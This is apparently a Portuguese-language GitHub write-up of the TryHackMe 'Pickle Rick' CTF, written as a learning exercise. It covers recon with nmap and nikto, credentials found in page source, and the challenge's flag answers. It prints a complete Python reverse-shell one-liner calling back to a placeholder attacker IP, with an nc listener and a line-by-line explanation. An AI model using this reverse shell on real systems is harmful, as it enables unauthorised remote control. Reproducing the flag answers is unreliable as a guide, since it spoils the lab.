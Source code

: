 # CTF Pickle Rick - Passo a passo do meu primeiro CTF do TryHackme
Introdução
Este repositório documenta passo a passo a minha jornada de resolução do CTF "Pickle Rick" na plataforma TryHackme. O objetivo é compartilhar meu aprendizado e experiência, detalhando os processos e comandos utilizados para completar o desafio.

## Descrição do Desafio
O objetivo do CTF era encontrar três "ingredientes" para ajudar Rick a se transformar em humano novamente. Para isso, era necessário explorar o site alvo, identificar vulnerabilidades e explorar o sistema para obter acesso aos ingredientes.

## Passos para Resolução
1. **Validação e Verificação do HTML:**
   Inspecionei o código HTML da página inicial e encontrei um comentário com o username "R1ckRul3s".
   No arquivo "/robots.txt", encontrei a palavra "Wubbalubbadubdub".

2. **Scan de Portas com Nmap:**
   Realizei um scan de portas com o comando nmap -sC -sV -oN nmap/initial 10.10.134.39.
   As portas 22 (SSH) e 80 (HTTP) estavam abertas.


3. **Scan de Vulnerabilidades com Nikto:**
   Executei o comando nikto -h http://$IP | tee nkto.log para identificar vulnerabilidades no site.
   Encontrei algumas vulnerabilidades, incluindo:
   * Ausência do cabeçalho X-Frame-Options
   * Versão desatualizada do Apache
   * Cookie PHPSESSID sem o flag httponly
   * Página de login de administrador
  
4. **Primeira Flag:**
   Acessei a página de login /login.php com o username "R1ckRul3s" e a senha "Wubbalubbadubdub".
   Obtive acesso à página de administrador e encontrei a primeira flag no arquivo "Sup3rS3cretPickl3Ingred.txt": "mr. meeseek hair".

5. **Segunda Flag:**
   Decifrei um hash em base64 encontrado no HTML da página, que me levou à frase "rabbit hole" que era só um atrativo para perder tempo. Explorei o código fonte da página /portal.php e executei um reverse shell Python para obter acesso ao servidor no campo de input da mesma. Encontrei a segunda flag no arquivo second ingredients, localizado em /home/rick: "1 jerry tear".

6. **Terceira Flag:**
   Obtive acesso root ao servidor, pois não havia senha definida.
   Encontrei a terceira flag no arquivo 3rd.txt, localizado no diretório raiz: "fleeb juice".
   
## Detalhes Técnicos

### Comando utilizados:
* `nmap -sC -sV -oN nmap/initial $IP`
* `nikto -h http://$IP | tee nkto.log`
* `nc -lnvp 9999`
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MeuIP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'```

### Detalhamento dos comandos utilizados:

**Detalhamento do comando usado no Nmap:**
* **nmap**: Comando utilizado para chamar a ferramente no terminal.
* **-sC**: Opção que permite scripts serem executados na varredura. Existe uma coleção de scripts mais detalhados, mas deixando em branco foi utilizado script default.
* **-sV**: Opção que ativa a detecção de versão dos serviços, tentando detalhar a versão dos softwares e serviços que estão sendo executados no alvo. 
* **-oN nmap/initial**: Esta opção tem como objetivos salvar o retorno da varredura em um arquivo legível salvo no diretório apontado.
* **$IP**: Este é o IP do alvo, definido no terminal atravé do comando `export IP="IP do alvo"` sendo este utilizado para poder ser feita a varredura. 
  
<hr>

**Detalhamento do comando usado no Nitko:**
* **nikto**: Comando utilizado para chamar a ferramente no terminal.
* **-h http://$IP**: A opção `-h` é utilizada para especificar o host que será escaneado. Sendo o host representado pela variável `IP` que havia sido declarada anteriormente no terminal através do comando `export IP="IP do alvo"`.
* **|**: O Pipe serve para pegar o retorno do comando a esquerda dele e usar como entrada para o comando a direita dele.
* **tee nkto.log**: Utilizando o comando tee é possível gravar a saída do comando em um arquivo chamado nkto.log e ainda exibí-la no terminal. 

<hr>

**Detalhamento do comando usado no Ncat:**
* **nc**: Comando utilizado para chamar a ferramenta do terminal e executá-la. 
* **-l**: Opção usada para especificar para o ncat que ele deve ficar "escutando" uma conexão de entrada.
* **-n**: Opção usada para impedir que o ncat realize qualquer pesquisa DNS ou portas, nomes de hosts...
* **-v**: Opção utilizada para aumentar a verbosidade do retorno do ncat, informando mais dados na saída do terminal. 
* **-p 9999**: A opção `-p` é usada para especificar a porta que o ncat deve ficar escutando, e o `9999` é a porta em questão.

<hr>

**Detalhamento do código em Python utilizado:**
* **python3 -c**: Executa o código Python que segue na linha de comando.
* **import socket,subprocess,os**: importa os módulos necessários. O socket para conexões de rede, subprocess para criar novos processos e os para interfaces diversas do sistema operacional.
* **s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);**:Isso cria um novo objeto de socket que usa a família de endereços IPv4 (AF_INET) e o tipo de socket TCP (SOCK_STREAM).
* **s.connect(("Meu IP",9999));**: Isso conecta o socket ao endereço IP informado na porta 9999.
* **os.dup2(s.fileno(),0), os.dup2(s.fileno(),1), os.dup2(s.fileno(),2);**: Essas linhas redirecionam os descritores de arquivo padrão para o socket. 0, 1 e 2 representam os descritores de arquivo padrão para entrada padrão, saída padrão e erro padrão, respectivamente. Isso significa que a entrada, saída e erro do processo que será criado serão enviados através do socket.
* **p=subprocess.call(["/bin/sh","-i"]);**: Isso cria um novo processo que inicia uma nova shell. A opção `-i` garante que a shell seja interativa, o que significa que ela pode receber entrada do usuário.


### Recursos Adicionais:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Considerações finais

Este CTF foi uma experiência desafiadora e gratificante que me permitiu praticar minhas habilidades em ethical hacking. Através da análise de código, exploração de vulnerabilidades e pivotamento de rede, fui capaz de completar o desafio e obter as três flags.

Agradecimentos:

Agradeço à plataforma TryHackme por oferecer este CTF e por contribuir para o meu aprendizado em segurança da informação.
